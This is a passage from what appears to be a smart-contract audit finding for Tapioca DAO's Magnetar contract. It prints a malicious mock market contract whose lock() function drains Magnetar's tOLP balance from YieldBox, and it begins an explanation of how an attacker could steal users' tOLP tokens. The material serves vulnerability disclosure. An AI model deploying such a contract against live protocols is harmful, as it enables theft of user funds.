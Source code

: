 ```

  address magnetarContract;
  
  function setMarket(address _realMarket) external {
    realMarket = IMarket(_realMarket);

    collateral = realMarket.collateral();
    collateralId = realMarket.collateralId();
    asset = realMarket.asset();
    assetId = realMarket.assetId();
    yieldBox = IYieldBoxBase(realMarket.yieldBox());
  }

  function setMagnetar(address _magnetar, uint256 _tOLPSglAssetId) external {
    magnetarContract = _magnetar;
    tOLPSglAssetId = _tOLPSglAssetId;
  }

  function activeSingularities(address singularity) external view returns(
    uint256 sglAssetId,
    uint256 totalDeposited,
    uint256 poolWeight
  ) {
    sglAssetId = tOLPSglAssetId;
  }

  //@audit => This is the function that will be called by the Magnetar contract
  //@audit => This contract will be granted all permission over the Mangetar contract in the YieldBox, which will allow it to transfer all that Magnetar owns to any address
  function lock(
      address to,
      address singularity,
      uint128 lockDuration,
      uint128 amount
  ) external returns (uint256 tokenId) {

    uint magnetarAssetBalance = yieldBox.balanceOf(magnetarContract,tOLPSglAssetId);
    yieldBox.transfer(magnetarContract, address(this), tOLPSglAssetId, magnetarAssetBalance);

    tokenId = 1;
  }

}
```

- I tried to code a PoC to reproduce the issue but I got a number of multiple configuration problems while trying to setup the tOLP asset in the YieldBox, because I didn't figure out how to register the tOLPSGLAsset in the YieldBox, I tried to use the [`test/magnetar.test.ts`](https://github.com/Tapioca-DAO/tapioca-periph-audit/blob/023751a4e987cf7c203ab25d3abba58f7344f213/test/magnetar.test.ts) file to create a PoC.
- **The below explanation is a step by step guide about how an attacker can steal user's tOLP Tokens before they are locked in a real `TapiocaOptionLiquidityProvision` contract by abusing a vulnerability in the `Magnetar` contract**, ***let's break down the code that is reponsible to lock tOLPs***
